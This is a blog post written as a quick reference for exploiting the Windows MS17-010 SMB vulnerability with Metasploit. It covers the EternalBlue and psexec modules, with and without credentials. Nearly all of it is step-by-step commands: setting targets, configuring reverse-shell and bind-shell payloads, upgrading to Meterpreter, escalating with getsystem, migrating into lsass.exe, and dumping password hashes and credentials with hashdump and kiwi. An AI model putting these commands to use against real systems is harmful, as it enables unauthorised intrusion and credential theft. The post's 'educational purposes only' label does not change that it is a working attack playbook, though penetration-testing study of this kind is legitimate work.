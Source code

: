 ```yaml
---
layout: post
title: 'Remote Exploit MS17-010'
date: '2021-03-27'
description: 'This article serves as a quick reference to exploiting the MS17-010 with the Metasploit Framework. This article is for educational purposes only.'
coverimage: Remote_Exploit_MS17010.jpg
tags: kali-linux metasploit, ms17-010, windows
published: true
posttype: article
categories: article
---
```

This article demonstrates how to exploit the MS17-010 vulnerability with the `Metasploit Framework`. This article is for educational purposes only.

Two methods are demonstrated; `with` and `without compromised credentials`. This article does not discuss the vulnerability and its background.

# Method 1 - MS17-010 exploitation without credentials: EternalBlue

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_eternalblue` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_eternalblue
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show targets
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

Configure options for your machine with. 

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

A reverse connection is initiated upon successful exploitation.

For `post-exploitation tips`, see step 6 of the below instructions.

# MS17-010 Exploitation - With credentials: PSExec

This example requires credentials to run. This example is done using a domain-joined target.

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_psexec` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_psexec
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show TARGETS
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
set SMBUSER <user>
set SMBPASS <password>
set SMBDOMAIN <domain>
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

For example, to use a smaller `bind` payload (`stageless`), you can choose:

```
set PAYLOAD generic/shell_bind_tcp
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

<h5 class="step">Step 6 - Optional: Post-Exploitation</h5>

If you used a non-meterpreter payload, you can upgrade it to Meterpreter using:

```
CTRL + Z (background session)
use post/multi/manage/shell_to_meterpreter
sessions -l
set session <session id>
set LHOST <your IP>
set LPORT <port of your choice>
exploit
```

<b>Note:</b> You may need to run this a few times to upgrade the shell.

Once you have upgraded your shell, you can escalate your privileges.

```
session -i <meterpreter session>
getsystem
```

To migrate process and dump credentials, use:

```
ps
migrate -N lsass.exe
hashdump
load kiwi
creds_all
```